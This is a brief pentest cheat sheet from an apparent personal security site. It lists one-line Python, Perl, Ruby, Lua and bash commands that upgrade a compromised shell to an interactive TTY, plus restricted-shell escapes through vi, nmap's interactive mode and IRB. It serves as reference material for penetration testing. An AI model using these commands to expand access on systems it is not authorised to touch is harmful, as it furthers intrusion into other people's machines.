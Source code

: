 ```yaml
---
layout: default
title : 0xS3rGio - Spawning A TTY Shell, Cheat Sheets
---
```


Often during A Pen Tests you may obtain a shell without having tty, yet wish to interact further with the system.Here are some commands which will allow you to spawn a tty shell. 

Cheat Sheets For Spawning A TTY Shell.

```python -c 'import pty; pty.spawn("/bin/sh")'```

```python -c 'import pty; pty.spawn("/bin/bash")'```

```python3 -c 'import pty; pty.spawn("/bin/sh")'```

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

```/bin/bash -i```

```/bin/sh -i```

```echo os.system('/bin/bash')```

```perl —e 'exec "/bin/sh";'```

```perl: exec "/bin/sh";```

```ruby: exec "/bin/sh"```

```lua: os.execute('/bin/sh')```

Bypassing Shell Restriction And Spawning A TTY Shell.

Within Vi

```:set shell=/bin/bash:shell```

Within Vi

```:!bash```

Within Nmap

```nmap --interactive``` Now Type ```!sh```

Within IRB

```exec "/bin/sh"```

<br> <br>
[Back To Home](../index.md)
<br>
